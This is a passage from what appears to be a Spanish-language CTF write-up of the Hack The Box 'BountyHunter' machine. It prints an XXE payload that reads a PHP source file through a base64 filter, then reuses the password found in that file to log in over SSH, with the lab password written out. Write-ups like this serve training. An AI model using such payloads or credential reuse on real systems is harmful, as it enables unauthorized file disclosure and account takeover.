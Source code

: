 Observamos que existe un archivo "db.php", el cual al momento de hacer un GET al archivo, no obtenemos nada, ya que probablemente solo tenga variables y/o funciones para que sean utilizadas por otros archivos.
Obtuvimos el archivo "db.php" con el XXE Descubierto.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```

![](/assets/images/htb-writeup-bountyhunter/11.png)

Obtuvimos el contenido de `db.php` y observamos una contraseña.

![](/assets/images/htb-writeup-bountyhunter/12.png)

Realizamos reutilizacion de credenciales (en este caso password) para conectarnos a traves de SSH con el usuario descubierto anteriormente al obtener el contenido del archivo `/etc/passwd`

ssh development@10.129.95.166
m19RoAU0hP41A1sTsq6K
